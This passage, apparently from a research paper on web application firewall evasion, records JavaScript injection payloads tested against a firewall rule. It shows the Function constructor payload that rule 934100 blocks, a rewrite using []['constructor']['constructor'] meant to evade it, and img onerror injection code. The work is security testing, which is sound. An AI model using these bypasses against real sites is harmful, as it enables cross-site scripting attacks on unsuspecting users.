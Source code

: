 \begin{lstlisting}[style=basicStyle, language=Python]
new Function(`var s = 'secret'; promp` + `t(s, s)`)()
\end{lstlisting}

When evaluating the firewall against this payload, the payload was blocked according to rule:

\begin{lstlisting}[style=ruleStyle, language=XML, caption=function constructor blocked, label={lst:funconblocked}]
<payload>new Function(`var s = 'secret'; promp` + `t(s, s)`)()</payload>

<message>"Node.js Injection Attack 1/2"</message>
<file>"/rules/REQUEST-934-APPLICATION-ATTACK-GENERIC.conf"</file>
<fileDetails>[line "52"] [id "934100"]<fileDetails>
<MatchedData>"new Function("</MatchedData>
\end{lstlisting}

To evade rule with id \verb|934100|, calling the \verb|Function()| constructor was substituted by \verb|[]['constructor']['constructor']()| according to the technique mentioned under Section~\ref{sec:functionconstructor}:

\begin{lstlisting}[style=basicStyle, language=Python]
[]['constructor']['constructor'](`var s = 'secret'; promp` + `t(s, s)`)()
\end{lstlisting}

When evaluating this payload using the test code snipped mentioned under Section~\ref{sec:evaluation}, it turned out to be invalid. After parsing and injecting the payload into the HTML page according to the following statements:

\begin{lstlisting}[style=basicStyle, language=Python, escapeinside=\^\^]
const injection = 
  JSON.parse("{\"body\":\"[]['constructor']['constructor'](`var s = 'secret'; promp` + `t(s, s)`)()\"}")

document.getElementById('div1').insertAdjacentHTML('afterbegin', `<img src=0 onerror=${injection.body}>`)
\end{lstlisting}

the resulting HTML code did not execute the given statements inside the payload as expected. It resulted in the following HTML code:

\begin{lstlisting}[style=basicStyle, language=Python, escapeinside=\^\^]
<div id="div1">
	<img src="0" onerror="[]['constructor']['constructor'](`var" s="secret" ;="" promp`="" +="" `t(s,="" s)`)()="">
</div>
\end{lstlisting}


